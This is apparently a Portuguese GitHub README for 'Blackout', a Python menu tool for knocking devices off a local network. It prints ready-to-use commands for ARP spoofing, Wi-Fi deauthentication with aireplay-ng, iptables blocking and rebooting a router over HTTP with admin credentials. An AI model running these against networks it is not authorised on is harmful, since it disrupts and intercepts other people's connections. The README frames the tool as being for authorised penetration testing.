 <p align="center">
  <img src="https://raw.githubusercontent.com/GhostNet-git/Blackout/main/BLACKOUT_LOGO.png" alt="Blackout Banner" />
</p>

<h1 align="center">blackout 🚀</h1>

<p align="center">



🛑 BLACKOUT

Um script Python para travar ou isolar dispositivos conectados à rede local.
Parte do projeto ZeroKey - uso restrito a ambientes controlados e autorizados.

⚙️ Sobre

Blackout é um script que executa comandos de bloqueio contra dispositivos conectados à mesma rede. É voltado para profissionais de segurança cibernética, testes de intrusão em ambientes autorizados e automação de controle de rede.

🚨 Aviso de Uso Ético

⚠️ Atenção: Este script é uma ferramenta poderosa e não deve ser utilizada em redes que você não tem permissão para monitorar ou controlar.

O uso indevido pode ser considerado crime cibernético (Lei nº 12.737/2012 - Brasil).

Utilize apenas para fins educacionais, profissionais ou testes com autorização.

📦 Requisitos

Python 3.x

Biblioteca colorama

pip install colorama

Ferramentas externas:

arpspoof (pacote dsniff)

iptables

aireplay-ng (pacote aircrack-ng)

curl

🎛️ Modo Interativo com Menu

O script agora possui um menu com as seguintes opções:

ARP Spoof – interceptação ou envenenamento ARP

Bloqueio por IP – usando iptables

Bloqueio por MAC – usando iptables

Deauth Wi-Fi – ataque de desconexão com aireplay-ng

Reiniciar Roteador – via curl (HTTP básico)

Sair

🧪 Execução

python Blackout.py

Você será guiado por um menu com perguntas e comandos automáticos.

🧠 Exemplos Reais de Comandos

ARP Spoof (envenenamento):

arpspoof -i wlan0 -t 192.168.0.105 192.168.0.1

Bloquear por IP:

iptables -A INPUT -s 192.168.0.105 -j DROP
iptables -A FORWARD -s 192.168.0.105 -j DROP

Bloquear por MAC:

iptables -A INPUT -m mac --mac-source AA:BB:CC:DD:EE:FF -j DROP

Deauth Wi-Fi:

aireplay-ng --deauth 1000 -a [BSSID] wlan0mon
# ou para um alvo específico:
aireplay-ng --deauth 1000 -a [BSSID] -c [MAC_CLIENTE] wlan0mon

Reiniciar roteador:

curl -u admin:senha http://192.168.0.1/reboot.cgi

🖼️ Capa Visual

O projeto acompanha um logotipo com estética cyberpunk/hacker:

Arquivo: BLACKOUT_LOGO.pngUso: Pode ser exibido em painéis, GUIs ou como splash de apresentação.

🔐 Projeto ZeroKey

Este script é um módulo interno do projeto ZeroKey, uma suíte de ferramentas para cibersegurança, automação de recon e operações ofensivas.

📄 Licença

Uso restrito. Distribuição permitida apenas com autorização do autor.

✉️ Contato

Autor: GhostNet Email: melibi6053@ancewa.com Projeto: ZeroKey

